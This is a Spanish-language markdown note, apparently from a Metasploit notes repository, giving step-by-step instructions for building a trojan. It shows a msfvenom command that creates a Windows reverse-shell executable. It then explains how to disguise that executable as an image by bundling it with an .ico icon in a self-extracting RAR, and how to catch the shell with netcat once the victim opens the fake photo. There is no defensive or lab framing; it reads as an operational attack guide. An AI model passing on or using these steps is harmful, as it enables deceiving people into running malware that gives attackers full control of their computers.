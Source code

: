 # Creamos el payload (virus) en linux preferentemente
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f exe -o virus.exe
```

--------------------------------------

# Nos lo pasamos a windows para seguir trabajando ahi y lo guardamos en una carpeta junto con una imagen

---------------------------------------------

# Con esa imagen que queramos la transformamos a formato .ico 
# Hay paginas gratis en internet para hacer eso aca dejo una sino busca otra
 [Convertidor Imagen](https://imagen.online-convert.com/es/convertir-a-ico)

---------------------------

# Convertimos a rar seleccionando juntos el virus y la foto y (marcamos las siguientes casillas)

![Captura de pantalla 2023-07-04 163709](https://github.com/sav404/Metasploit-notes/assets/169759579/82d3c07a-0f98-480e-8837-00edeced4854)
![config 1](https://github.com/sav404/Metasploit-notes/assets/169759579/266ab6b5-09b3-47d3-bfab-dc7382f1d59a)

-------------------------------------

# En la pestaña texto e iconos y examinamos en cargar icono desde fichero y elegimos la foto en formato .ico

![config](https://github.com/sav404/Metasploit-notes/assets/169759579/45910970-34fa-414c-a45a-0159ae673754)



# Se nos va a crear un archivo como este

![Captura de pantalla 2023-07-04 165159](https://github.com/sav404/Metasploit-notes/assets/169759579/0066de22-276e-469b-ba12-a32289eaa0a1)


# Nos ponemos en escucha con netcat en el puerto para recibir la señal en el momento que el objetivo abra la foto y obtendremos acceso total a su maquina. 

----
